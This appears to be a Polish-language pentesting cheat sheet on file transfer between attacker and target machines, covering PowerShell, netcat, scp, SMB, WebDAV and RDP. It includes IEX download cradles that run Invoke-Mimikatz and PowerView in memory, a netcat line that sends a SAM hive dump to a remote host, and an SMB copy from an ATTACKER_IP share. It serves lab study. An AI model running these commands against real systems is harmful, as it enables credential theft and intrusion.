 # Content
1. [Podzial na fragmenty](#Podzial-na-fragmenty)
2. [Powershell](#Powershell)
3. [Przeslanie nc](#Przeslanie-nc)
4. [Przeslanie przez ssh scp](#Przeslanie-przez-ssh-scp)
5. [Apache](#Apache)
6. [Upload flask](#Upload-flask)
7. [Using SMB server](#SMB-server)
8. [WebDav](#webdav)
9. [RDesktop](#rdesktop)

# Podzial na fragmenty
### Mozna przed podzieleniem zakodowac do base64
```console
base64 -w file.ext > file_to_split
```
### Dobry sposob
Podzielenie na ilosc partii
```console
split -n 20 file_to_split
```
Zlaczenie podzielonych kawalkow
```console
cat x* > scale_file
```
### Pierwotna wersja
![](PodzielenieNaMniejszeFragmenty.png)


# Powershell
### Dekodowanie base64 do binarki pliku powershell
```powershell
$contentString = Get-Content $filePath -Encoding UTF8
$binary = [Convert]::FromBase64String($contentString)
Set-Content -Path $newFileName -Value $binary -Encoding Byte
```
### Komendy pobierania pliku
```powershell
IEX (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')
```
```powershell
iwr -uri http://ip/powerview.ps1 -OutFile pv.ps1
```

```powershell
$power = (New-Object System.Net.Webclient).DownloadString('http://ip/powerview.ps1')

```


```powershell
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\htb> (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
```

```powershell
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

# Przeslanie nc
### Nasluch
```console
nc -nlvp 9999 > dane
```
### Wyslanie
```console
nc -n <ip> 9999 < file
```
### Wyslanie pliku z windowsa
```console
Get-Content SAM.base | .\nc.exe 10.10.116.147 9001
```

# Przeslanie przez ssh scp
### Przeslanie
```console
scp file.ext kali@192.168.45.193:/tmp
```
### Pobranie pliku przez ssh
```console
scp kali@192.168.45.250:/home/kali/Desktop/ticket.doc ticket.doc
```

# Apache
Kopiujemy plik do /var/www/html
```console
systemctl start apache2
```
Pobieramy plik na innej maszynie
```console
wget http://naszeIP/zasob
```

# Upload flask
```console
git clone https://github.com/romeokienzler/flask-file-upload.git
```
```console
mv upload.py app.py
```
```console
flask run
```
Connect i browser **127.0.0.1:5000**

# SMB server
    Uruchamiamy server na kalim:
    sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
    
    Na windowsie 
    1) Podlaczamy zasow:
       1- net use \\ATTACKER_IP\share /USER:user s3cureP@ssword 
    2) Kopiujemy pliki
       1- copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
    3) Odlaczamy zasob
       1- net use \\ATTACKER_IP\share /del
    
    Tutaj takie cos bylo robione(Uprawnienia windows)



# webdav
```bash
sudo pip3 install wsgidav cheroot
```
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Polaczenie do zasobow z powershella
```powershell
dir \\192.168.49.128\DavWWWRoot
```

# rdesktop
Podlaczenie udostepnionego katalogu przy polaczeniu rdp (potem widac go w mojKomputer itp.)
```bash
Binio69@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```
